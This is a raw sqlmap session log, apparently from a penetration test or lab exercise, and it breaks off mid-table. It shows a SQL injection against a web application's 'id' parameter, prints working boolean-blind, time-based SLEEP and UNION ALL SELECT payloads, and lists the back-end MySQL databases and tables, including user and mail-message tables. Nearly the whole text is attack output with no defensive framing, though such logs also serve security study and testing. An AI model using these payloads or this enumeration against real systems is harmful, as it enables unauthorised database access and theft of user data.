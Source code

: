 [12:06:08] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:06:08] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:06:08] [INFO] target URL appears to have 5 columns in query
[12:06:08] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: page=blog&title=Blog&id=2 AND 7114=7114

Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
Payload: page=blog&title=Blog&id=2 AND (SELECT * FROM (SELECT(SLEEP(5)))kOtW)

Type: UNION query
Title: Generic UNION query (NULL) - 5 columns
Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162707871,0x4f75614351414f4d6e69,0x7176717671),NULL--
---
[12:06:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL 5.0.12
[12:06:31] [INFO] fetching database names
[12:06:31] [INFO] fetching tables for databases: 'calendar, ehks, information_schema, mysql, roundcubemail, test'
Database: calendar
[5 tables]
+---------------------------------------+
| phpc_calendars                        |
| phpc_events                           |
| phpc_sequence                         |
| phpc_users                            |
| uid                                   |
+---------------------------------------+

Database: roundcubemail
[6 tables]
+---------------------------------------+
| session                               |
| cache                                 |
| contacts                              |
| identities                            |
| messages                              |
| users                                 |
+---------------------------------------+

Database: ehks
[3 tables]
+---------------------------------------+
| user                                  |